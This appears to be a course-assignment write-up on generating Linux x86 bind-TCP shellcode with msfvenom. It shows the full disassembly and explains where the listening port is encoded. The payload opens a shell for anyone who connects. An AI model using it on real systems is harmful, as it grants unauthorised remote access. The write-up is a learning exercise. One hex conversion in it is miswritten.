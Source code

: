 # Assignment 1

## What to do 

• Create a Shell_Bind_TCP shellcode 

– Binds to a port 

– Execs Shell on incoming connection 

• Port number should be easily configurable

## Solution

The easiest solution is to obtain the disassembled code from the bind_tcp_shell from Metasploit.

      sudo msfvenom -p linux/x86/shell_bind_tcp LPORT=8888 -b "\x00" -i 0 -f raw |ndisasm -u -

      00000000  31DB              xor ebx,ebx
      00000002  F7E3              mul ebx
      00000004  53                push ebx
      00000005  43                inc ebx
      00000006  53                push ebx
      00000007  6A02              push byte +0x2
      00000009  89E1              mov ecx,esp
      0000000B  B066              mov al,0x66
      0000000D  CD80              int 0x80
      0000000F  5B                pop ebx
      00000010  5E                pop esi
      00000011  52                push edx
      00000012  68020022B8        push dword 0xb8220002
      00000017  6A10              push byte +0x10
      00000019  51                push ecx
      0000001A  50                push eax
      0000001B  89E1              mov ecx,esp
      0000001D  6A66              push byte +0x66
      0000001F  58                pop eax
      00000020  CD80              int 0x80
      00000022  894104            mov [ecx+0x4],eax
      00000025  B304              mov bl,0x4
      00000027  B066              mov al,0x66
      00000029  CD80              int 0x80
      0000002B  43                inc ebx
      0000002C  B066              mov al,0x66
      0000002E  CD80              int 0x80
      00000030  93                xchg eax,ebx
      00000031  59                pop ecx
      00000032  6A3F              push byte +0x3f
      00000034  58                pop eax
      00000035  CD80              int 0x80
      00000037  49                dec ecx
      00000038  79F8              jns 0x32
      0000003A  682F2F7368        push dword 0x68732f2f
      0000003F  682F62696E        push dword 0x6e69622f
      00000044  89E3              mov ebx,esp
      00000046  50                push eax
      00000047  53                push ebx
      00000048  89E1              mov ecx,esp
      0000004A  B00B              mov al,0xb
      0000004C  CD80              int 0x80

Once we have it, we need to find the place where the PORT is injected. We locate it by changing the LPORT variable when running metasploit and comparing both outputs.

      sudo msfvenom -p linux/x86/shell_bind_tcp LPORT=9999 -b "\x00" -i 0 -f raw |ndisasm -u -

      00000000  31DB              xor ebx,ebx
      00000002  F7E3              mul ebx
      00000004  53                push ebx
      00000005  43                inc ebx
      00000006  53                push ebx
      00000007  6A02              push byte +0x2
      00000009  89E1              mov ecx,esp
      0000000B  B066              mov al,0x66
      0000000D  CD80              int 0x80
      0000000F  5B                pop ebx
      00000010  5E                pop esi
      00000011  52                push edx
      00000012  680200270F        push dword 0xf270002
      00000017  6A10              push byte +0x10
      00000019  51                push ecx
      0000001A  50                push eax
      0000001B  89E1              mov ecx,esp
      0000001D  6A66              push byte +0x66
      0000001F  58                pop eax
      00000020  CD80              int 0x80
      00000022  894104            mov [ecx+0x4],eax
      00000025  B304              mov bl,0x4
      00000027  B066              mov al,0x66
      00000029  CD80              int 0x80
      0000002B  43                inc ebx
      0000002C  B066              mov al,0x66
      0000002E  CD80              int 0x80
      00000030  93                xchg eax,ebx
      00000031  59                pop ecx
      00000032  6A3F              push byte +0x3f
      00000034  58                pop eax
      00000035  CD80              int 0x80
      00000037  49                dec ecx
      00000038  79F8              jns 0x32
      0000003A  682F2F7368        push dword 0x68732f2f
      0000003F  682F62696E        push dword 0x6e69622f
      00000044  89E3              mov ebx,esp
      00000046  50                push eax
      00000047  53                push ebx
      00000048  89E1              mov ecx,esp
      0000004A  B00B              mov al,0xb
      0000004C  CD80              int 0x80

We can see that the position where the code is different is 

      00000012  68020022B8        push dword 0xb8220002 (b822 in litte endian is 22b8 which is 8888 in decimal)

      00000012  680200270F        push dword 0xf270002 (0f27 in litte endian is 27f0 which is 9999 in decimal)

So, we only need to modify this line every time we want to change the listening port. To do that easily, compile_bind_shell.sh was created, which ask to the user the filename and the port you will want to be set to the final binary.

